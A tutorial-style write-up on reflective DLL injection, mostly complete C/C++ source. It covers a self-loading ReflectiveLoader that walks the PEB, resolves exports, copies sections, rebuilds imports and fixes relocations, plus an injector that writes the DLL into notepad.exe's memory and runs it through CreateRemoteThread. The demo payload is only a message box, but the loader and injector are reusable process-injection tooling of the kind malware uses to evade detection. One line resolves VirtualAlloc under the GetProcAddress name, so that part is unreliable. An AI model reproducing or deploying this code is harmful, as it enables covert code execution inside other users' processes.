

Different from other injections type. This DLL will resolve itself without using LoadLibraryA. Here’s how it resolve itself:
Readgsqword(0x60) to get the DLL base -> Search for GetProcAddress, VirtualAlloc, LoadLibraryA-> VirtualAllocate the DLL get a pointer to the memory (pmem) -> Copy all the Sections and Headers to the pmem -> Rebuild IAT -> Resolve Base Relocation Table -> Call the DLL main
typedef struct _LDR_DATA_TABLE_ENTRY_CUSTOM {
..
UNICODE_STRING FullDllName;
UNICODE_STRING BaseDllName;
...
} LDR_DATA_TABLE_ENTRY_CUSTOM, * PLDR_DATA_TABLE_ENTRY_CUSTOM;
We need to modify the struct to reveal the reserved field, It’s the BaseDllName. You can search it in Vergilius Project.
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
MessageBoxA(NULL, "Reflective DLL\!", "SUCCESS!", MB_OK);
...
}
Here’s our simple DLL main. It will call the MessageBoxA api after it resolves itself.
PVOID search_dll_base(WCHAR* dll_name) {
PPEB peb = (PPEB)__readgsqword(0x60);
PPEB_LDR_DATA ldr = peb->Ldr;
LIST_ENTRY* head = &ldr->InMemoryOrderModuleList;
LIST_ENTRY* current = head->Flink;
while (current != head) {
PLDR_DATA_TABLE_ENTRY_CUSTOM entry = CONTAINING_RECORD(current, LDR_DATA_TABLE_ENTRY_CUSTOM, InMemoryOrderLinks);
if (my_wcscmp(dll_name, entry->BaseDllName.Buffer) == 0)
{
return entry->DllBase;
}
current = current->Flink;
}
return NULL;
}
We’ll get PPEB from gsqword(0x60). Then using LINKED LIST with CONTAINING_RECORD to get the LDR_DATA_TABLE_ENTRY. Then use it to have the name to compare with our dll_name, then return our dll_base.
FARPROC search_function(PVOID dll_base, char* fnName) {
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)dll_base;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((BYTE*)dll_base + dos->e_lfanew);
DWORD export_rva = nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
PIMAGE_EXPORT_DIRECTORY exprt = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)dll_base + export_rva);
DWORD* names = (DWORD*)((BYTE*)dll_base + exprt->AddressOfNames);
DWORD* funcs = (DWORD*)((BYTE*)dll_base + exprt->AddressOfFunctions);
WORD* ordinals = (WORD*)((BYTE*)dll_base + exprt->AddressOfNameOrdinals);
for (size_t i = 0; i < exprt->NumberOfNames; i++)
{
char* name = (char*)((BYTE*)dll_base + names[i]);
if (my_strcmp(name,fnName) == 0)
{
return (FARPROC)((BYTE*)dll_base + funcs[ordinals[i]]);
}
}
return NULL;
}
After having the dll_base we can search the function in the with the dll_base. Go through dos->nt->OptionalHeader.DataDirectories.VirtualAddress-> + dll_base = names, ordinals, address.
extern "C" __declspec(dllexport) ULONG_PTR WINAPI ReflectiveLoader(LPVOID lpParameter) {
WCHAR szKernel32[] = { 'K', 'E', 'R', 'N', 'E', 'L', '3', '2', '.', 'D', 'L', 'L', '\0' };
...
PVOID kernel32_base = NULL;
kernel32_base = search_dll_base(szKernel32);
decltype(&LoadLibraryA) LoadLibraryA = (decltype(LoadLibraryA))search_function(kernel32_base, load_library_a);
decltype(&GetProcAddress) GetProcAddress = (decltype(GetProcAddress))search_function(kernel32_base, get_proc_address);
decltype(&VirtualAlloc) VirtualAlloc = (decltype(VirtualAlloc))search_function(kernel32_base, get_proc_address);
After getting our VirtualAlloc function we’ll allocate the dll_base. We’ll get the dll_base using lpParameter Which we can get later when the loader VirtualAlloc.
ULONG_PTR dll_base = (ULONG_PTR)lpParameter;
After getting the DLL_base we can VirtualAlloc Memory of the dll_size inside our process.
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)dll_base;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((BYTE*)dll_base + dos->e_lfanew);
DWORD size_of_image = nt->OptionalHeader.SizeOfImage;
LPVOID mem = VirtualAlloc(NULL, size_of_image, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
After Virtual Allocating we’ll copy the Headers and Sections into the new mem we just allocated. I’ll call it mem for short
DWORD size_of_headers = nt->OptionalHeader.SizeOfHeaders;
for (size_t i = 0; i < size_of_headers; i++)
{
((BYTE*)mem)[i] = ((BYTE*)dll_base)[i];
}
Go through all the headers in dll_base then put it in the new memory we just allocated.
PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt);
for (size_t i = 0; i < nt->FileHeader.NumberOfSections; i++)
{
if (section[i].SizeOfRawData > 0) {
BYTE* dest = (BYTE*)mem + section[i].VirtualAddress;
BYTE* source = (BYTE*)dll_base + section[i].PointerToRawData;
DWORD size = section[i].SizeOfRawData;
for (size_t j = 0; j < size; j++)
{
dest[j] = source[j];
}
}
}
Next is the sections. We’ll use IMAGE_FIRST_SECTION macro to get the first section. Then go through every section. Our destination is the mem and source is our dll_base.
Rebuild Import Address Table where all the function addresses are stored. Get IMAGE_DATA_DIRECTORY from the nt->OptionalHeader.DataDirectory. IMAGE_DATA_DIRECTORY is the list of the important data inside a PE.
Each DATA_DIRECTORY: VirtualAddress, Size;
DataDirectory[0] - Export Directory.
DataDirectory[1] - Import Directory: Pointer to the IMAGE_IMPORT_DESCRIPTOR
DataDirectory[2] - Resource Directory. Icon, images, strings, version info.
DataDirectory[5] - Base Relocation Table: Relocate the fixed address inside the code when the process is loaded into an unexpected memory location.
DataDirectory[9] - TLS (Thread Local Storage) Directory: Contains code that get executed before main/EntryPoint.
DataDirectory[12] - IAT (Import Address Table).
PIMAGE_DATA_DIRECTORY import_dir = &nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
if (import_dir->Size > 0)
{
PIMAGE_IMPORT_DESCRIPTOR import_desc = (PIMAGE_IMPORT_DESCRIPTOR)((BYTE*)mem + import_dir->VirtualAddress);
while (import_desc->Name != 0) {
char* dll_name = (char*)((BYTE*)mem + import_desc->Name);
HMODULE dll = LoadLibraryA(dll_name);
PIMAGE_THUNK_DATA original_thunk = (PIMAGE_THUNK_DATA)((BYTE*)mem + import_desc->OriginalFirstThunk);
PIMAGE_THUNK_DATA first_thunk = (PIMAGE_THUNK_DATA)((BYTE*)mem + import_desc->FirstThunk);
if (import_desc->OriginalFirstThunk == 0)
{
original_thunk = first_thunk;
}
while (original_thunk->u1.AddressOfData != 0) {
FARPROC func_address = NULL;
if (IMAGE_SNAP_BY_ORDINAL(original_thunk->u1.Ordinal))
{
LPCSTR ordinal = (LPCSTR)IMAGE_ORDINAL(original_thunk->u1.Ordinal);
func_address = GetProcAddress(dll, ordinal);
}
else
{
PIMAGE_IMPORT_BY_NAME name_data = (PIMAGE_IMPORT_BY_NAME)((BYTE*)mem + original_thunk->u1.AddressOfData);
func_address = GetProcAddress(dll, name_data->Name);
}
first_thunk->u1.Function = (ULONG_PTR)func_address;
original_thunk++;
first_thunk++;
}
import_desc++;
}
}
Inside we will get the IMAGE_DIRECTORY_ENTRY_IMPORT; After getting the directory we will go to the IMAGE_PORT_DESCRIPTOR. Each Descriptor represents a dll, each thunk represents a function inside that dll. Because our payload DLL is not loaded by the OS using LoadLibraryA, the Windows Loader doesn't automatically resolve the IAT for us. Therefore, we have to manually fetch and overwrite the thunks with the real function addresses. After we are done with all the functions we will import_desc++ to move to the next dll.
We have this formula delta = [address of the memory we got allocate] - [where we wanted the process to be loaded] We can use the delta to calculate the new absolute address for the code.
ULONG_PTR delta = (ULONG_PTR)mem - nt->OptionalHeader.ImageBase;
if (delta !=0)
{
PIMAGE_DATA_DIRECTORY reloc_dir = &nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
Similar to IMAGE_IMPORT_DESCRIPTOR we use OptionalHeader to get the BASE_RELOCATION.
if (reloc_dir->Size > 0)
{
PIMAGE_BASE_RELOCATION reloc = (PIMAGE_BASE_RELOCATION)((BYTE*)mem + reloc_dir->VirtualAddress);
while (reloc->VirtualAddress != 0) {
DWORD entries_count = (reloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
WORD* reloc_data = (WORD*)((BYTE*)reloc + sizeof(IMAGE_BASE_RELOCATION));
for (size_t i = 0; i < entries_count; i++) {
WORD type = reloc_data[i] >> 12;
WORD offset = reloc_data[i] & 0x0FFF;
if (type == IMAGE_REL_BASED_HIGHLOW || type == IMAGE_REL_BASED_DIR64) {
ULONG_PTR* target_address = (ULONG_PTR*)((BYTE*)mem + reloc->VirtualAddress + offset);
*target_address += delta;
}
}
reloc = (PIMAGE_BASE_RELOCATION)((BYTE*)reloc + reloc->SizeOfBlock);
}
}
}
entries_count: how many do we have to fix. To calculate this we’ll do a quick math. (Size of the entire block minus size of 8 bytes of the header) all divided by size of WORD (which is 2); After getting the counts, we will skip the Header then point to the data. I’ll call it reloc_data. Then we use a for loop to go through all the entries. Because we are using WORD so we’ll have bytes = 16 bits. The first 4 bits are for the type, 12 remains are the offset. We create a pointer to the mem + reloc->VirtualAddress + offset. That's the wrong address. *target_address = *target_address + delta; This fixes the wrong address.
reloc = reloc + reloc->SizeOfBlock : Next Page until the reloc->VirtualAddress == 0;
The final step is to make our dll_main inside the mem .
DWORD entry_point_rva = nt->OptionalHeader.AddressOfEntryPoint;
if (entry_point_rva != 0)
{
ULONG_PTR entry = (ULONG_PTR)mem + entry_point_rva;
typedef BOOL(WINAPI* DLLMAIN)(HINSTANCE, DWORD, LPVOID);
DLLMAIN dll_main = (DLLMAIN)entry;
dll_main((HINSTANCE)mem, DLL_PROCESS_ATTACH, NULL);
}
return (ULONG_PTR)mem;
}
Then return the address of the mem.
======================LOADER=========================
#include <windows.h>
#include <stdio.h>
#define BASE_ADDR (BYTE*)base
DWORD RvaToOffset(PIMAGE_NT_HEADERS nt, DWORD rva) {
PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt);
for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
if (rva >= section[i].VirtualAddress && rva < section[i].VirtualAddress + section[i].Misc.VirtualSize) {
// Offset = RVA - VirtualAddress + PointerToRawData
return rva - section[i].VirtualAddress + section[i].PointerToRawData;
}
}
return 0;
}
Because we are reading the file, so the RVA won’t work we have to change it to the file offset using this formula:
Offset = RVA - sectionRVA + section.PointerToRawData: we minus the function RVA and the section RVA to get the depth inside from the start of the section to the function. After that we add it with the pointer to raw data to get the file offset of the file.
DWORD GetReflectiveLoaderOffset(LPVOID base) {
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)base;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(BASE_ADDR + dos->e_lfanew);
DWORD export_rva = nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
DWORD export_offset = RvaToOffset(nt, export_rva);
PIMAGE_EXPORT_DIRECTORY exprt = (PIMAGE_EXPORT_DIRECTORY)(BASE_ADDR + export_offset);
DWORD* names = (DWORD*)(BASE_ADDR + RvaToOffset(nt,exprt->AddressOfNames));
DWORD* funcs = (DWORD*)(BASE_ADDR + RvaToOffset(nt,exprt->AddressOfFunctions));
WORD* ordinals = (WORD*)(BASE_ADDR + RvaToOffset(nt,exprt->AddressOfNameOrdinals));
for (size_t i = 0; i < exprt->NumberOfNames; i++){
char* Name = (char*)(BASE_ADDR + RvaToOffset(nt, names[i]));
if (my_strcmp(Name, “ReflectiveLoader”) == 0 ){
return RvaToOffset(nt, funcs[ordinals[i]]);
}
}
return 0;
}
This is kinda similar to the search for function inside the ReflectiveDll the only difference is It’s a file offset not the RVA. Then we will return the file_offset for the CreateRemoteThread to run our ReflectiveLoader. IMPORTANT you need to declare export for the ReflectiveLoader or this won’t appear inside the IMAGE_EXPORT_DIRECTORY.
The final step is our main().
I’ll create a file handle to our DLL -> Read everything and put it in a local buffer -> OpenProcess to our target process -> VirtualAllocateEx to allocate a memory inside target. -> WriteProcessMemory to write the local_buffer into the mem we just allocated -> CreateRemoteThread to the function using mem+file_offset_Reflective_loader.
That’s how I'm gonna do it.
int main() {
DWORD targetPID = FindProcessId(L"notepad.exe");
const char* dll_path = ("C:\\Users\\kingx\\source\\repos\\Reflective_DLL\\x64\\Release\\Reflective_DLL.dll");
HANDLE hFile = CreateFileA(dll_path, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE)
{
return 1;
}
DWORD fileSize = GetFileSize(hFile, NULL);
LPVOID localBuffer = HeapAlloc(GetProcessHeap(), 0, fileSize);
DWORD bytesRead;
ReadFile(hFile, localBuffer, fileSize, &bytesRead, NULL);
DWORD loaderOffset = GetReflectiveLoaderOffset(localBuffer);
HANDLE hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, targetPID);
LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if ((WriteProcessMemory(hProcess, remoteMem, localBuffer, fileSize, NULL))== FALSE)
{
return 1;
}
LPTHREAD_START_ROUTINE pRemoteFunc = (LPTHREAD_START_ROUTINE)((ULONG_PTR)remoteMem + loaderOffset);
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pRemoteFunc, remoteMem, 0, NULL);
WaitForSingleObject(hThread, INFINITE);
VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
CloseHandle(hThread);
CloseHandle(hProcess);
return 0;
}
Remember inside the reflective dll use #pragma optimize("", off). Your Reflective DLL should work now:
